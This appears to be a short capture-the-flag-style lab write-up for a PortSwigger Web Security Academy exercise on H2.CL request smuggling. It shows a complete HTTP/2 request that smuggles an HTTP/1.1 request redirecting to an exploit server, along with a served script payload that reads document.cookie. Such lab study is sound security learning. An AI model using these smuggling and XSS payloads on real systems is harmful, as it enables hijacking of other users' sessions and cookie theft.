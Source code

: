 


```

### H2.CL request smuggling

`/resources` redirects to `/resources/`

<img width="814" alt="image" src="https://user-images.githubusercontent.com/56427824/197118837-56de741e-c458-45a7-9797-0d037e3c47d0.png">

```
POST / HTTP/2
Host: 0a3400d10387e80dc00605c9009000cb.web-security-academy.net
Cookie: session=YtKxwMFcLomg9f6hOwGDxjaUhNWvsvif
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a5d0086037fe8fec01d0560015f00f5.exploit-server.net
Content-Length: 5

x=1

```

Edit header and ensure that content type is html

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
```

```
<script>
alert(document.cookie)
</script>
```



